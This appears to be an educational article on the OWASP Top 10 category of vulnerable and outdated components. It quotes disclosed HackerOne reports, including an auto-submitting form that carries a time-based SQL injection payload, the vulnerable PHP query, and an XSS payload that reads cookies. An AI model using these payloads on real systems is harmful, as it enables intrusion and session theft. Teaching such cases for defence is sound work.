


## Introduction

In this article, we will discuss the sixth item in the OWASP Top 10 for 2021 (updated every four years): **Vulnerable and Outdated Components**.

OWASP stands for the **Open Web Application Security Project**, an open-source initiative focused on web application security and supported by security practitioners and software developers. OWASP frequently hosts seminars, discussion forums, and educational programs for developers.

So, what is the **OWASP Top 10**?  
It is a standardized list categorizing the most common and critical security risks found in web applications—from the highest to the lowest impact. Its purpose is to help developers stay aware of potential vulnerabilities within their applications.

## Vulnerable and Outdated Components

### What Is Vulnerable and Outdated Components?

**Vulnerable and Outdated Components** refers to the use of **third-party frameworks or libraries** that are outdated. Older versions generally contain known vulnerabilities, making them easy targets for attackers.

Unfortunately, this issue is still very common in Indonesia—especially among poorly maintained or abandoned websites, which become attractive targets for exploitation.

## Practical Case Studies

### #135288 — Multiple Vulnerabilities in a WordPress Plugin at drive.uber.com  
Source: https://hackerone.com/reports/135288

An attacker scanned **drive.uber.com** and found that the application was still running **WordPress 4.4.2**, an outdated version.

Several vulnerabilities were discovered in **WordPress 4.4.2**, including:

1. SQL INJECTION

The attacker created a page containing the following form:

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnReturnParent" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```

POST di _plugins/q-and-a/inc/reorder.php_

```
45. if (isset($_POST['btnReturnParent'])) {
46. 	$parentsParent = $wpdb->get_row("SELECT post_parent FROM $wpdb->posts WHERE ID = " . $_POST['hdnParentID'], ARRAY_N);
47. 	$parentID = $parentsParent[0];
48. }
```

2. Cross-Site Scripting (XSS)

The attacker logged into the _admin panel_ -> _Settings_ -> _Q & A_

Then modified the FAQ Homepage field to :

```
'"/autofocus/onfocus=alert(document.domain%2bdocument.cookie);//
```

### #168485 Exposed, outdated nginx server (v1.4.6) potentially vulnerable to heap-based buffer overflow & RCE

Source : https://hackerone.com/reports/168485

The attacker performed **reconnaissance** on the IP address _54.153.101.52_ and discovered that it was running **nginx version 1.4.6**, an outdated release.

The server was affected by **CVE-2014-0133**, a known vulnerability that allows for **Remote Code Execution (RCE)**.



## Mitigation

Perform regular security reviews on the applications you manage, especially those that rely on third-party frameworks or components. Always ensure that you are using the most up-to-date and supported versions to minimize the risk of exploitation.

## References

- OWASP Application Security Verification Standard: V1 Architecture, Design, and Threat Modelling  
- OWASP Dependency Check (for Java and .NET libraries)  
- OWASP Testing Guide – Map Application Architecture (OTG-INFO-010)  
- OWASP Virtual Patching Best Practices  
- *The Unfortunate Reality of Insecure Libraries*  
- MITRE Common Vulnerabilities and Exposures (CVE) Search  
- National Vulnerability Database (NVD)  
- Retire.js for identifying vulnerable JavaScript libraries  
- Node Security Advisories  
- Ruby Security Advisory Database and Tools  

```
https://safecode.org/publication/SAFECode_Software_Integrity_Controls0610.pdf
```

## Additional CWE References

CWE-937 OWASP Top 10 2013: Using Components with Known Vulnerabilities

CWE-1035 2017 Top 10 A9: Using Components with Known Vulnerabilities

CWE-1104 Use of Unmaintained Third Party Components
